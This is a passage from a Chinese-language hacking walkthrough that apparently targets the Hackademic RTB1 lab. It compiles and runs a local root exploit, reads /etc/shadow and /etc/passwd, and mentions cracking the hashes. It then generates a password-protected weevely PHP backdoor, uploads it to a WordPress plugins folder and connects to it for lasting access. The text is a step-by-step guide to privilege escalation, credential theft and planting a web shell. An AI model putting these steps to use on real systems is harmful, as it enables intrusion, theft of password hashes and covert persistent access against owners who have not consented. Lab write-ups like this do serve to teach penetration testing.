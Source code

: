 printf(“[*] Could not open socket.n”);
exit(-1);
}
memset(&amp;addr, 0, sizeof(addr));
通过以上代码我们发现该exp是C语言开发的，我们需要将他编译成elf格式的,命令如下:

**gcc roro.c –o roro**

接下来执行编译好的exp

**./roro**

&nbsp;

[![exp编译](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034231h2r.jpg "36")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034231h2r.jpg)
执行完成之后我们输入id命令

id

我们发现我们已经是root权限了

uid=0(root) gid=0(root)

[![Linux服务器提权](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034235Hjp.png "37")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034235Hjp.png)
现在我们可以查看/etc/shadow文件
**cat /etc/shadow**
[![linux基础命令](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034256AXA.jpg "38")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034256AXA.jpg)
查看/etc/passwd 文件

**cat /etc/passwd**
[![linux基础命令](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034321dUi.jpg "39")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034321dUi.jpg)
我们可以使用”john the ripper”工具破解所有用户的密码.但是我们不会这样做，我们需要在这个服务器上留下后门以方便我们在任何时候访问它.

我们用weevely制作一个php小马上传到服务器上.

1.weevely使用选项
**root@bt:/pentest/backdoors/web/weevely# ./main.py -**

[![weevely使用方法](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034329JUB.jpg "40")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034329JUB.jpg)

2.用weevely创建一个密码为koko的php后门

**root@bt:/pentest/backdoors/web/weevely# ./main.py -g -o hax.php -p koko**

[![weevely使用方法](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034352PkW.png "41")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034352PkW.png)

接下来上传到服务器之后来使用它
**root@bt:/pentest/backdoors/web/weevely# ./main.py -t -u http://hack-test.com/Hackademic_RTB1/wp-content/plugins/hax.php -p koko**

[![weevely使用方法](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034402HWa.png "42")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034402HWa.png)
测试我们的hax.php后门

[![weevely使用方法](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034426dWE.png "43")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034426dWE.png)